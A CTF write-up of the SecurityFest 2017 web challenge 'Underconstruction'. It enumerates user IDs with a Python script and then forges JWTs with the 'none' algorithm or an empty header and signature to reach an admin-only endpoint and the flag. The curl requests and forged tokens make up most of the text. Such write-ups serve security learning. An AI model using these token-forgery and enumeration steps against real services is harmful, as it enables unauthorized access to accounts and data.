 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-06-02
date: 2017-06-02
title: 'SecurityFest CTF 2017 : Underconstruction'
tags: [securityfest]
mathjax: false
imagefeature: 
description: SecurityFest2017 - Underconstruction
category: ctf
chart: null
---
```



## Problems

```
Under Construction! Please protect your head, wear a hardhat.
Solves: 12
Service: http://web.ctf.rocks:8080
Author: Kits / weckzen
```


## Writeup

at this web challenges we can read in the source code at root path

```html
<!-- I don't know the status of the front end but the back end is coming along nicely. Try /login with {"username": "user", "password":"password"} -->
```

using this curl to login 
```
➔ curl -H "Content-Type: application/json" \
-X POST -d '{"username":"user","password":"password"}' \
http://web.ctf.rocks:8080/login
```

and we get this response 
```
< HTTP/1.1 200 
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Cache-Control: no-cache, no-store, max-age=0, must-revalidate
< Pragma: no-cache
< Expires: 0
< X-Frame-Options: DENY
< Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY
< Content-Length: 51
< Date: Fri, 02 Jun 2017 03:23:30 GMT
< 
* Connection #0 to host web.ctf.rocks left intact
{"userId":"52","authorizedURLs":["/login","/apis"]}
```

information we get is UserID:52 and authorizedURLs: ['/login','/apis'] , and we got authorization header 
with JWT (Json Web Token).

`eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY`
jwt have 3 part `<header>.<payload>.<signature>` 

```
Header : 
➔ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}% 

Payload : 
➔ echo -n eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0 | base64 -d
{"user":"user","exp":1497237810}

Signature :
*Signature is constructed using this algorithm 

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
secret
)

*Concatenating base64 header and payload with "." and encrypt with some custom secret string

```

let's trying what /apis endoint does with this curl.

```
➔ curl -H "Content-Type: application/json" \
-X GET \         
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' http://web.ctf.rocks:8080/apis
{"timestamp":1496374182620,"status":400,"error":"Bad Request","exception":"org.springframework.web.bind.MissingServletRequestParameterException","message":"Required Integer parameter 'userId' is not present","path":"/apis"}% 
```

missing parameter `userId`

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/apis?userId=52" 
{"urls":["/login","/apis"],"id":52,"user":"user"}
```

using some python to enumurate other users urls.

```python
import requests
import json

url = "http://web.ctf.rocks:8080/apis"



payload = "{\"username\": \"user\", \"password\":\"password\"}"
headers = {
    'content-type': "application/json",
    'cookie': "JSESSIONID=4B17338B92DFAF214BAF7D40F29FC561",
    'authorization': "Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5ODI2MH0.FwX2y37d7C1eQdiLgrsyCoWc-PbMb_O4KfKT3KtpQZw",
    'cache-control': "no-cache",
    'postman-token': "c8908859-4423-0bf5-1049-db1bc7ffcc27"
    }


for x in range(100):
    querystring = {"userId":x}
    response = requests.request("GET", url, data=payload, headers=headers, params=querystring)
    result = json.loads(response.text)
    print(result['urls'], x, result['user'])
```

get this result

```
([u'/login', u'/apis', u'/supersecretflagresource'], 0, u'admin')
([u'/login', u'/apis'], 1, u'Patrik')
([u'/login', u'/apis'], 2, u'Joakim')
([u'/login', u'/apis'], 3, u'Joakim')
([u'/login', u'/apis'], 4, u'Joakim')
([u'/login', u'/apis'], 5, u'Joakim')
([u'/login', u'/apis'], 6, u'Joakim')
([u'/login', u'/apis'], 7, u'Joakim')
([u'/login', u'/apis'], 8, u'Joakim')
([u'/login', u'/apis'], 9, u'Joakim')
([u'/login', u'/apis'], 10, u'Joakim')
```

we got some interesting urls `/supersecretflagresource`.
but we can't access it directly because they validating our Authorization header JWT is not Admin

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzIzNzgxMH0.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq-2O1fp3vY' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374542889,"status":403,"error":"Forbidden","message":"Access is denied","path":"/supersecretflagresource"}
```

I am not solving this while the competition but trying to documenting this is a good challenge.
if we change the JWT payload part to `{"user":"admin","exp":1497237810}` this will trigger exception because
the signature validation is error.

```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcyMzc4MTB9.80uu7Wo32CCkDpTwZNjVsYCsJFRwO_5xAq' "http://web.ctf.rocks:8080/supersecretflagresource" 
{"timestamp":1496374872312,"status":500,"error":"Internal Server Error","exception":"io.jsonwebtoken.SignatureException","message":"JWT signature does not match locally computed signature. JWT validity cannot be asserted and should not be trusted.","path":"/supersecretflagresource"}
```

so after reading some writeup there are 2 ways to bypass this restriction :
1. change the header algorithm to none and empty signature the payload `{"user":"admin","exp":1497099449}` `<header>.<payload>.`
2. using empty header and empty signature and change the payload to `{"user":"admin","exp":1497099449}` `.<payload>.`

the first way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

second way
```
➔ curl -H "Content-Type: application/json" \
-X GET \
-H 'Authorization: Bearer .eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.' "http://web.ctf.rocks:8080/supersecretflagresource"
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```

i am prefer the second way from here `https://losfuzzys.github.io/writeup/2017/05/31/SCTF2017-underconstruction/`
and the author say will remove the confusing part at v1.0 `https://github.com/jwtk/jjwt/issues/212`

so to get the flag just open `https://kits.se?kokitotsos` and fire up console run the javascript function

```js
function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}
```


*Nb : i am trying >12Hour cracking the password of signature to construct a valid signature but got nothing

Flag : `SCTF{lolKOKITOTSOS}`